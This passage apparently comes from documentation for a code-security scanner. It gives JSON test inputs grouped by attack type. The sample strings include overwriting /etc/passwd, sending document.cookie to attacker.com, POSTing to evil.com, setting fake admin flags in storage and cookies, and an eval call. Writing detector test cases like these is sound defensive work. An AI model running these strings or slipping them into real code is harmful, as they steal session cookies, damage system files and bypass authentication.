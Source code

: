 **File system destruction:**
```json
{
  "text": "open('/etc/passwd', 'w').write('hacked')",
  "scanners": ["codebert_security"],
  "options": { "threshold": 0.5 }
}
```

### 4. **Network Attacks**
```json
{
  "text": "fetch('http://attacker.com/steal?data=' + document.cookie)",
  "scanners": ["codebert_security"],
  "options": { "threshold": 0.5 }
}
```

**Multiple network attacks:**
```json
{
  "text": "XMLHttpRequest().open('POST', 'http://evil.com', true); fetch('http://attacker.com/steal?data=' + document.cookie)",
  "scanners": ["codebert_security"],
  "options": { "threshold": 0.5 }
}
```

### 5. **Authentication Bypass**
```json
{
  "text": "localStorage.setItem('admin', 'true')",
  "scanners": ["codebert_security"],
  "options": { "threshold": 0.5 }
}
```

**Multiple authentication bypass attempts:**
```json
{
  "text": "document.cookie = 'admin=true; path=/'; sessionStorage.setItem('authenticated', 'true'); localStorage.setItem('admin', 'true')",
  "scanners": ["codebert_security"],
  "options": { "threshold": 0.5 }
}
```

### 6. **Code Injection**
```json
{
  "text": "eval('malicious_code_here')",
  "scanners": ["codebert_security"],
  "options": { "threshold": 0.5 }
}
```
